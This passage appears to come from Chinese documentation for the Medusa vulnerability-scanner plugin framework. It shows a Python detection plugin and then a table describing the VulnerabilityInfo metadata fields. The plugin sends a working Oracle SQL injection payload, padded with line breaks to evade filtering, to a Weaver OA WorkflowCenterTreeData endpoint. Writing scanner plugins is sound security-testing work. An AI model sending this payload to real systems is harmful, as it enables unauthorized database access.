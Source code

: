 ```python
                                                                                 'v$instance order by (((1'},
                          headers=headers, timeout=6, proxies=proxies,verify=False)
        elif ProxyIp==None:
            resp = s.post(payload_url,
                         data={'formids': '11111111111)))' + '\x0a\x0d' * 360 + 'union select NULL,instance_name from '
                                                                                'v$instance order by (((1'},
                         headers=headers, timeout=6, verify=False)
        con = resp.text
        code = resp.status_code
        if code == 200 and con.lower().find('''"draggable":''') != -1 and con.lower().find(
                '''"checked":''') != -1 and con.lower().find('''"id":''') != -1 and con.lower().find(
                '''"text":''') != -1:
            Medusa = "{} 存在泛微OA WorkflowCenterTreeData接口注入漏洞\r\n漏洞详情:\r\nPayload:{}\r\n".format(url, payload_url)
            return (Medusa)
    except Exception:
        logging.warning(Url)#漏洞的请求url
        _ = VulnerabilityInfo()
        logging.warning(_.info.get('parameter'))#捕获的插件名称
        
```

### VulnerabilityInfo函数

```python
class VulnerabilityInfo(object):
    def __init__(self):
        self.info = {}
        self.info['Author'] = "Ascotbe"  # 插件作者
        self.info['CreateDate'] = "2019-10-13"  # 插件编辑时间
        self.info['VName'] = "XXXXXXXXXXXXXXXXXXXX"  # 漏洞名称
        self.info['Affects'] = "该漏洞存在哪个组件中的哪个版本"  # 漏洞组件
        self.info['DescContent'] = "漏洞详情，比如在哪个位置，有什么危害，什么地方没写好或者没过滤导致的等"  # 漏洞描述

```

| 函数名      | 值           | 备注                                                         |
| :---------- | ------------ | ------------------------------------------------------------ |
| Author      | 插件作者     |                                                              |
| CreateDate  | 插件编辑时间 | 格式为：年-月-日                                             |
| VName       | 漏洞名称     | 要和文件名相同，并且只能英文（所有.都要替换为_               |
| Affects     | 漏洞组件     | 该漏洞存在哪个组件中的哪个版本                               |
| DescContent | 漏洞描述     | 漏洞详情，比如在哪个位置，有什么危害，什么地方没写好或者没过滤导致的等 |

### UrlProcessing函数
